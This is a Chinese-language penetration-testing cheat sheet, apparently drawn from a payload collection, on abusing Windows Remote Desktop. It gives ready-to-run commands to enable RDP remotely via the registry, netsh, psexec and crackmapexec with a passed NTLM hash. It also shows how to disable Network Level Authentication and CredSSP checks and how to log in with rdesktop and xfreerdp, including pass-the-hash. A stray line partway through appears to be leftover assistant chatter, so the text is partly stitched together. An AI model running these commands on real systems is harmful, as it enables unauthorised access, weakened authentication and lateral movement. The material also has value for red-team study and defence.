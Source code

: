 ## RDP 远程桌面协议

:warning: **注意**：您可能需要启用RDP并禁用NLA并修复CredSSP错误。

```powershell
# Enable RDP
PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f
PS C:\> netsh firewall set service remoteadmin enable
PS C:\> netsh firewall set service remotedesktop enable
# Alternative
C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
root@payload$ crackmapexec 192.168.1.100 -u Jaddmon -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable

# Fix CredSSP errors
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f

# Disable NLA
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired
PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)
```

根据您提供的文档内容，以下是全部内容的整理：

# 滥用RDP协议远程执行命令

## 使用`rdesktop`

```powershell
root@payload$ rdesktop -d DOMAIN -u username -p password 10.10.10.10 -g 70 -r disk:share=/home/user/myshare
root@payload$ rdesktop -u username -p password -g 70% -r disk:share=/tmp/myshare 10.10.10.10
# -g : 屏幕将占据实际屏幕大小的70%
# -r disk:share : 在远程桌面会话期间共享本地文件夹
```

## 使用`freerdp`

```powershell
root@payload$ xfreerdp /v:10.0.0.1 /u:'Username' /p:'Password123!' +clipboard /cert-ignore /size:1366x768 /smart-sizing
root@payload$ xfreerdp /v:10.0.0.1 /u:username # 将要求输入密码

# 使用Restricted Admin传递哈希，需要不在"Remote Desktop Users"组中的管理员账户。
# 传递哈希适用于Server 2012 R2 / Win 8.1+
# 需要freerdp2-x11 freerdp2-shadow-x11包而不是freerdp-x11
root@payload$ xfreerdp /v:10.0.0.1 /u:username /d:domain /pth:88a405e17c0aa5debbc9b5679753939d
```
